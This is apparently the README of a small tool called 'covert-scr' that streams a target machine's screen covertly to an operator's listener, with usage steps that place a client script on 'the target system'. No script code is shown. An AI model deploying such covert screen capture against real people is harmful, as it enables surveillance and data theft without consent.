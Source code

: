 # covert-scr
Covert "sudoless" screensharing. Requires `scrot` to be installed on the target system.
## Usage
1. `./scrserver.sh interface lport` 
...interface e.g. `wlan0`    
...lport e.g. `12345`   
...Note down the IP address of your interface.    
2. Place `scrclient.sh` on the target system.
3. `./scrclient.sh lhost lport`
...lhost is your IP.
...lport is the port of your choice on your machine.
4. The stream should've opened on your browser automatically.

